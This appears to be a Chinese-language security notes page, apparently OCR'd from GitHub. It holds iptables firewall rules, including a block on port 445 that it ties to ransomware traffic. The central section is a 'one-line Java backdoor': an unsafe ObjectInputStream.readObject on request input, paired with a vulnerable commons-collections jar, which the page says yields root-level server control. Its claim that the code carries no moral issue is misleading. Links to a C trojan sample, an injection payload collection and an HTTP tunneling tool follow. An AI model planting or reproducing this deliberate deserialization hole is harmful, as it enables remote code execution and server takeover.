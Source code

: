 ```
iptables -t filter -A INPUT -p tcp --tcp-flags ALL URG,PSH,SYN,FIN -j DROP
# 80端口设置相同ip最大并发5
iptables -A INPUT -p tcp --syn --dport 80 -m connlimit --connlimit-above 5 -j REJECT --reject-with tcp-reset
# 禁止任何445端口的链接、进出，似乎各种勒索病毒外联用这个端口
sudo iptables -A INPUT -p tcp --dport 445 -j DROP
sudo iptables -A OUTPUT -p tcp --dport 445 -j DROP
# 查看当前的拦截情况
iptables  -L -n -v
# 带行号，方便基于行号进行删除
iptables -nL --line-number


```
# 一行java代码实现超级逼格后门
```
1、java、或jsp中添加
注意：以下代码没有任何能力、道德问题，更不是API readObject问题
new java.io.ObjectInputStream(request.getInputStream()).readObject();
或者，柔性、可用空间、限制更少、成功率高的方式
new java.io.ObjectInputStream(request.getParameter('xxx')).readObject();
或者启用压缩功能，当然，这增加了该漏洞利用的难度...
new java.io.ObjectInputStream(new java.util.zip.GZIPInputStream(request.getParameter('xxx'))).readObject();

new java.io.ObjectInputStream(new java.util.zip.DeflaterInputStream(request.getInputStream())).readObject();

2、将【低于commons-collections-3.2.2.jar】版本的放入工程、加载并一起打包发布，或者jre的默认加载目录中
别管他用没有用，神一样的后门就实现了
如果中间件是root启动，那么，恭喜你，你已经拥有了这台服务器的超级控制权限了

3、这个故事告诉大家：没有用任何api的jar需要删除，或者升级到安全版本
否则心跳加速、血压升高的故事会跌宕起伏...
```

# 一个简单的C语言木马
注意：这是没有任何恶意代码的，target.c( https://github.com/0x00pf/0x00sec_code)


# 各种注入攻击
```
https://github.com/swisskyrepo/PayloadsAllTheThings
```

# http隧道
[reGeorg]
[reGeorg]:https://github.com/sensepost/reGeorg
